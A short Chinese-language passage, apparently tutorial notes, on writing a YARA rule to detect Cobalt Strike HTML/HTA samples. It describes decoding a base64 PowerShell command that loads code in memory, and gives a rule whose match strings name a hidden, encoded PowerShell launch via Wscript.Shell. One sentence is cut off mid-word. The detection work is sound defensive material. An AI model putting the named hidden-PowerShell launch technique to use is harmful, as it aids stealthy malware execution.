

同样的 base64 编码命令, 解码查看



这里 $s=New-Object IO.MemoryStream 结合下文是将数据加载到内存中执行

> 在 cs3.14中是$s=New-Object IO.Memor

```
rule html_ps
{
    strings:
        $string= "Wscript.Shell"
        $string2= "var_shell.run \"powershell -nop -w hidden -encodedcommand"
        $string3= "var_func"
    condition:
        filesize < 100KB and $string and $string2 and $string3
}
```



---

**Source & Reference**
- [Yara入门——如何通过Yara规则匹配CobaltStrike恶意样本](https://www.anquanke.com/post/id/211501)
